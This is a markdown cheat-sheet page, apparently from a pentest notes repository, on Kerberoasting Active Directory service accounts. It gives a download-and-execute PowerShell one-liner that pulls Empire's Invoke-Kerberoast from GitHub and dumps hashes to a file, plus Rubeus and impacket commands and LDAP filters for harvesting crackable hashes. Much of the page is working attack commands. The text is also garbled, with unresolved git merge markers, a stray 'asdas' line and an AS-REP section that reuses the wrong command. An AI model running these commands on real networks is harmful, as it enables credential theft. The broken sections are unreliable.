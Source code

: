 ```yaml
---
title: "Kerberoasting"
date: 2020-07-16T13:41:37+02:00
draft: false
---
```

asdas

#### EmpireProject Kerberoasting one-liner

```
IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat | Select-Object Hash | Out-File -filepath ‘c:\users\public\HashCapture.txt’ -Width 8000
```

#### Kerberoasting using Rubeus
<<<<<<< HEAD
The following command shows an example of how to peroform a kerberoasting attack using Rubeus. The outfile parameter ensures that the hashes are in a crackable (non newline delimited) format.

```.\Rubeus.exe kerberoast /creduser:<Domain>\<User> /credpassword:<Password> /domain:<Domain> /dc:<DomainController> /format:hashcat /outfile:roast.txt```

#### Kerberoasting from a non-domain joined machines using impackets GetUserSPNs.py

```
GetUserSPNs.py domain.local/username:password  -request
```
=======
The following Rubeus command executes a keberoast attack for all users within the domain that have a Service Principle Name (SPN) configured.

```Rubeus kerberoast```

The underlying LDAP query Rubeus executes (by default) to look for users is the following one:

```(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))`"```

Broken down, it does the following:

* & - This prefix asserts all subsequent filters must be met.
* (samAccountType=805306368) – Only Active Directory users (not computers, groups, etc.)
* (servicePrincipalName=*) – User accounts that have any service principal name (SPN) entries
* (!samAccountName=krbtgt) – Omit the krbtgt account from this search
* (!(UserAccountControl:1.2.840.113556.1.4.803:=2)) – Omit accounts that are disabled

Rubeus also has flags for directly outputting to a hashcat-crackable format.



#### AS-REP Roasting using Rubeus (ToDo)
```Rubeus kerberoast```

Here the LDAP query looks as follows:
```(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))```
Broken down, it does the following:
* & - All subsequent filters must be met.
* (samAccountType=805306368) - Only Active Directory users (not computers, groups, etc.)
* (userAccountControl:1.2.840.113556.1.4.803:=4194304) – Users have the "Do not require Kerberos preauthentication" enabled.


#### References
https://labs.f-secure.com/blog/attack-detection-fundamentals-discovery-and-lateral-movement-lab-1
>>>>>>> fbd262c393cfa3488a62753a98521dcbd6d04924
